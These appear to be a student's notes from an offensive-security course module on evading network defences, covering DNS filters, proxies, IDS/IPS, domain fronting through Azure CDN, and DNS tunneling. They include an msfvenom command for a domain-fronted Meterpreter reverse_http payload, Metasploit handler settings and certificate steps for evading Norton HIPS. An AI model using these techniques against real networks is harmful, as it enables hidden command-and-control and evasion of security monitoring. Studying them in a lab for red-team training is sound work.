

# Bypassing Network filters

what all needs to be bypassed?

1. dns - name resolution
2. internal firewall - limits based on IP address and port number
3. ssl inspection 
4. proxy server or an IDS
5. external firewall

requires a fill lab setup

windows machine named client
ubnut linux machine named ubuntu
then we will be sitting at kali linux the attacker interface

# Lab setup

The lab includes a Windows 10 machine named client and an Ubuntu Linux machine named 
ubuntu. The Ubuntu system serves as an edge defense machine and will handle all defensive 
tasks. 

It’s running DNS for name resolution, an Nginx494 web server, and Snort,
495 which is set to 
capture all network traffic. Most of the Snort rules are turned off for now, but a few custom rules 
that enable basic filtering are installed.

From an external perspective, we can SSH to the Ubuntu system from our Kali machine. The 
Windows 10 machine is behind the Ubuntu machine, which means we can’t access it directly. 
However, a port forwarding rule forwards RDP requests so we can RDP to the Windows client by 
connecting to the Ubuntu machine on TCP port 3389.

we need to use domain names to move to our c2 server

# DNS filters

They compare requested domains to a blocklist of malicious domain names. - malwaredomainnamelist

it can reroute malicious traffic to a sinkhole - for more ananlysis or simpley drop it

  

OpenDNS blocks phishing sites

```
└─$ sudo bash -c "echo nameserver 8.8.8.8 > /etc/resolv.conf"
[sudo] password for kali: 
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ nslookup www.internetbadguys.com
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
Name:   www.internetbadguys.com
Address: 146.112.255.155

                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ sudo bash -c "echo nameserver 208.67.222.222 > /etc/resolv.conf"
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ nslookup www.internetbadguys.com
Server:         208.67.222.222
Address:        208.67.222.222#53

Non-authoritative answer:
Name:   www.internetbadguys.com
Address: 146.112.61.108
Name:   www.internetbadguys.com
Address: ::ffff:146.112.61.108

```

Ipvoid looks whether the ip is reputable or not

### 9.1.1.1 Exercises
1. Repeat the steps above to test OpenDNS blocking.
   checked
2. Obtain various domain reputation results with IPVoid.
    didnt work
# Dealing with DNS filters

we need to select a domain that appeasrs to be legitimate

new domain may seem logical however it may be categorized as a Newly seen domain. which affects the reputaion.

domain classification should not be webmail

we can host legitimate looking website on the domain and request recategorization

### 9.1.2.1 Exercise
1. Using OpenDNS, check the categorization of a couple of domains.
    cant find opendns portal

# Web Proxies

Simply put, web proxy servers accept and forward web traffic on behalf of a client, for example, a 
web browser. This is often done in a Network Address Translation (NAT) environment, in which 
the internal private source IP addresses511 are translated into Internet-routable addresses

# bypassing web proxies

When dealing with proxy servers, we should first ensure that our payload is proxy-aware. When 
our payload tries to connect back to the C2 server, it must detect local proxy settings, and 
implement those settings instead of trying to connect to the given domain directly. Fortunately, 
Meterpreter’s HTTP/S payload is proxy-aware, (thanks to the InternetSetOptionA515 API), so we 
can leverage that.

Url verification and categorization system can be bypassed by a clean URL

We could also grab a seemingly-safe domain by hosting our C2 in a cloud service or Content 
Delivery Network (CDN), which auto-assigns a generic domain. These could include domains such 
as cloudfront.net, wordpress.com, or azurewebsites.net

Now that we’ve considered our payload and C2 server domains and URLs, we can consider the 
traces our C2 session will leave in the proxy logs. For example, instead of simply generating 
custom TCP traffic on ports 80 or 443, our session should conform to HTTP protocol standards.

Fortunately, many framework payloads, including Metasploit’s Meterpreter, follow the standards 
as they use HTTP APIs like HttpOpenRequestA

Useragent must be correct for example :
Windows with Edge, we should set it accordingly. In this scenario, a User-Agent for Chrome 
running on macOS will likely raise suspicion or might be blocked

In order to determine an allowed User-Agent string, we could consider social engineering or we 
could sniff HTTP packets from our internal point of presence. Additionally, we could use a site like 
useragentstring.com to build

### 9.2.1.1 Exercises
1. Visit Symantec’s website categorization website and verify the category of a couple of 
random websites.

https://sitereview.bluecoat.com/#/

2. Compare the domain categorization results for the same domains in OpenDNS and 
Symantec.

# IDS and IPS Sensors

https://blog.didierstevens.com/2015/05/11/detecting-network-traffic-from-metasploits-meterpreter-reverse-http-module/
However, both devices will perform deep packet inspection. Large chunks of data are generally 
fragmented as they traverse the IP network, because some links have low Maximum 
Transmission Unit (MTU)523 values, which limits the size of packets that can be transferred over 
the network medium. This process is called IP fragmentation.
524 Because of this fragmentation, 
IDS and IPS devices will first need to reassemble525 packets to reconstruct the data. The devices 
will then examine the content of the traffic beyond IP addresses and port numbers, and inspect 
application layer data in search of identifiable patterns defined by signatures.

To nypass this we need to customize the user agent and our payload characteristics

# Bypassing norton HIPS with custom certificates

when trying meterpereter payload we see that meterpreter generates new certificate everytime.

Generatinga private key using openssl

`openssl req -new -x509 -nodes -out cert.crt -keyout priv.key`

### 9.3.1.1 Exercises
1. Repeat the previous steps to bypass Norton’s HIPS sensor.
   not done 
2. Use the impersonate_ssl module in Metasploit to bypass Norton HIPS.

dont know how to connect ot the multi handler

3. Norton doesn’t block Empire’s default HTTPS shell. Why is this? Consider the steps we took 
in this section to determine the reason.

4. If you own a domain, obtain a valid SSL certificate from Let’s Encrypt’s free service


# Full packer capture devices

we need to work so that we dont arouse suspicion

# HTTPS Inspection

man in the middle

TLS certificate pinning in meterpreter

 This can be controlled by setting the StagerVerifySSLCert option to “true” and 
configuring HandlerSSLCert with the certificate we trust and want to use.

# Domain fronting

At a very high level, this technique leverages the fact that large Content Delivery Networks
(CDN)545 can be difficult to block or filter on a granular basis. Depending on the feature set 
supported by a CDN provider, domain fronting allows us to fetch arbitrary website content from a 
CDN, even though the initial TLS546 session is targeting a different domain. This is possible as the 
TLS and the HTTP session are handled independently. For example, we can initiate the TLS 
session to www.example1.com and then get the contents of www.example2.com

How its possible?

With the advent of virtual hosting,
547 multiple web sites associated with different domains could 
be hosted on a single machine, i.e. from a single IP address. The key to this functionality is the 
request HOST header, which specifies the target domain name, and optionally the port on which 
the web server is listening for the specified domain

```
GET /index.html HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 
Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: */*
```

For example, we can make an HTTPS connection to a server and set the SNI to indicate that we 
are accessing www.example1.com. Once the TLS session is established and we start the HTTP 
session (over TLS), we can specify a different domain name in the Host header, for example 
www.example2.com. This will cause the webserver to serve content for that website instead. If 
our target is not performing HTTPS inspection, it will only see the initial connection to 
www.example1.com, unaware that we were connecting to www.example2.com. If 
www.example2.com is a blocked domain, but www.example1.com is not, we have performed a 
simple filter bypass

client initiates a DNS request to its primary dns server for good.com

the dns server asks root  for ip address

the server replies with the configured sname for that domain which is cdn11.someprovider.com

then primary dns server queries the someprovider.com dns server for the cdn11.someprovider.com domain

the dns server for someprovider.com replies with 192.168.1.1 which is the IP of the CDN edpoint

the primary dns sends the reply to the client

the clinet initalises a tls connection to domain good.com to the cdn endpoint

the cdn endpoint serves the certificate for good.com

client asks for cdn222.someprovider.com resource

the cdn endpoint serves the content of malicios.com

If we are using HTTPS and no inspection devices are present, this primarily appears to be a 
connection to good.com because of the initial DNS request and the SNI entry from the TLS Client 
Hello.

even in an environemnt that uses https filtering we can use this bypass dns filters

# Domain fronting with azure cdn

To set up a CDN in Azure, we’ll select Create Resource from the Home screen. A search screen is 
displayed where we can search for various resources and services offered by Azure. Here, we 
need to search for “CDN”

Name: This field is arbitrary. We can give it any name we like.
• Subscription: This is the subscription that will be used to pay for the service.
• Resource group: The CDN profile must belong to a resource group. We can either select an 
existing one or create a new one. For this example, we’ll create a new one, adding “-rg” to the 
end of the name.
• RG location: An arbitrary geographic area where we want to host the CDN.
• Pricing tier: We’ll select “Standard Verizon”. This affects not only the pricing, but also the 
features we will have access to, and will also affect the way the CDN works. We found 
“Standard Verizon” to be the most reliable for our needs. The “Standard Microsoft” tier 
creates issues with TLS and the caching is also not as flexible.
• CDN endpoint name: The hostname we will use in the HTTP header to access 
meterpreter.info. This can be anything that is available from Azure, and the suffix will be 
azureedge.net.
• Origin type: This should be set to “Custom origin”.
• Origin hostname: This would be the actual website that should be cached by CDN under 
normal cases. In our case, this is the domain where we host our C2 serve

On our machine, which is the destination for meterpreter.info, we’ll set up a simple Python HTTP 
and HTTPS listener to test web server functionality. We’ll first test HTTP and if that works, we can 
move on to HTTPS. This ensures that all layers are working properly and allows for systematic 
testing.
We can run a Python one-liner to test HTTP connectivity. We’ll need to run it with sudo since we’re 
listening on a privileged port (with a value less than 1024). We’ll specify a module script with -m 
http.server and the listening port number, which in this case is 80:
`$ sudo python3 -m http.server 80`
Listing 403 - Running Python HTTP server
We’ll create a short Python script to handle HTTPS connections. This script will create an SSL 
wrapper around the default HTTP request handler, SimpleHTTPRequestHandler, which was used 
in the example above

```python
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl
import socketserver
httpd = socketserver.TCPServer(('138.68.99.177', 443), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, 
 keyfile="key.pem", 
 certfile='cert.pem', server_side=True)
httpd.serve_forever()
```

```dotnetcli
kali@kali:~$ curl http://offensive-security.azureedge.net
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
</ul>
<hr>
</body>
</html>
kali@kali:~$ curl -k https://offensive-security.azureedge.net
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" 
"http://www.w3.org/TR/html4/strict.dtd">
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
</ul>
<hr>
</body>
</html>
```
We’ll use the FindFrontableDomains551 script (written by Steve Borosh a.k.a. @rvrsh3ll) to find 
domains we can use.
Let’s download it from GitHub and run the setup.sh installation script.
kali@kali:~# git clone https://github.com/rvrsh3ll/FindFrontableDomain

page 355

going after these pages we find that the certificate is also same

```
 msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com 
LPORT=80 HttpHostHeader=offensive-security.azureedge.net -f exe > http-df.exe
```

what to do if its a staged payload.

the second payload also has to uses do.skype.com

we need to set meterpreter payload accordingly

```
msf5 exploit(multi/handler) > set LHOST do.skype.com
msf5 exploit(multi/handler) > set OverrideLHOST do.skype.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
msf5 exploit(multi/handler) > set HttpHostHeader offensive-security.azureedge.net
msf5 exploit(multi/handler) > run -j
...
[-] Handler failed to bind to 152.199.19.161:80
[*] Started HTTP reverse handler on http://0.0.0.0:8
```

# 9.6.1.1 Exercise
1. Use FindFrontableDomains to locate additional domains that can be used for domain 
fronting

not done

# 9.6.1.2 Extra Mile
Censys is a search engine similar to Shodan, searching Internet-connected devices based on their 
fingerprint information, like webserver type, certificate details, etc. Use this service to find Azure 
domain-frontable sites. The following guide553 will show the necessary steps

# Domain fronting  in lab

we nned to set a ubuntu system to do it

page 359

### 9.6.2.1 Exercises
1. Repeat the steps above to perform a domain fronting attack in the lab.
2. Perform the same attack for HTTP and inspect the HTTP packets for the correct Host 
header information. This NGINX configuration is available on the server:
offsec@ubuntu:/etc/nginx/sites-available$ cat exercise.offseccdn.com
server {
 listen 80;
 server_name exercise.offseccdn.com;
 
 location / {
 proxy_pass http://bad.com
 }
}
Listing 423 - nginx server config for the exercise

### 9.6.2.2 Extra Mile
Perform domain fronting with PS Empire.

# DNS tunneling

DNS tunneling is a common technique used to bypass proxy, IPS, and firewall filters

# How dns tunneling works

This 
means that in order to receive the DNS requests generated by the client, we need to register our 
DNS server as the authoritative server for a given target domain, i.e. we need to assign an NS 
record to our domain. This typically means that we must purchase a domain and under its configuration, set the NS record to our DNS tunnel server. This will cause the DNS server to 
forward all subdomain requests to our server.

From the client, we can encapsulate data into the name field, which contains the domain name. 
However, since the top-level domain is fixed, we can only encapsulate data as subdomains. These 
can be up to 63 characters long but the total length of a domain can’t exceed 253 characters.556
From the server side, we have much more flexibility and can return data in a variety of fields 
based on the record type that was requested. An “A” record can only contain IPv4 addresses, 
which means we can only store four bytes of information, but “TXT” records allow up to 64k.
However, one challenge in C2 communications is that if we want to send any data from the server 
to the client, we can’t initiate the transfer from the server. Therefore, the malicious client 
applications are designed to continuously poll the server for updated data

example of a dns query
`Query: Request TXT record for "61726574686572656e6577636f6d6d616e6473.ourdomain.com"`

# Dns tunneling with dnscat2

page 366

### 9.7.2.1 Exercises
1. Repeat the steps in the previous section to get a reverse shell.
2. Tunnel SMB through the tunnel and access files on the Windows machine via DNS.


